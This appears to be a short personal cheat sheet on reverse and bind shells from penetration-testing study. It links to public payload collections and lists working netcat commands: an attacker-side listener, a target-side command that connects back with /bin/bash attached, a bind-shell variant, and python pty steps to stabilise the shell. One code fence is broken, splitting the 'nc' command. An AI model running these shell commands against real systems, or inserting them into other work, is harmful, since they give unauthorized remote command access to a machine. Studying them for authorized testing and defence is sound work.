 # Reverse Shells

Payloads all the Things
>https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

Reverse Shell Cheatsheet
>https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Reverse Shell Generator
>https://www.revshells.com/

---

## Reverse Shell example

on the attacking machine
```
sudo nc -lvnp 443
```
>starts a listener

on the target 
```
nc <LOCAL-IP> <PORT> -e /bin/bash
```

---

## Bind Shell example

On the attacking machine
```n
c 10.10.36.67 <port>
```

On the target
```
nc -lvnp <port> -e "cmd.sh"
```
>--cmd.exe would contain code that starts a listener attached to a shell directly on the target

---

## Stabilisation

```
python2 -c 'import pty;pty.spawn("/bin/bash")'
```
>have to explicitly state python,python2,python3

```
export TERM=xterm
```
>this will give us access to term commands such as clear
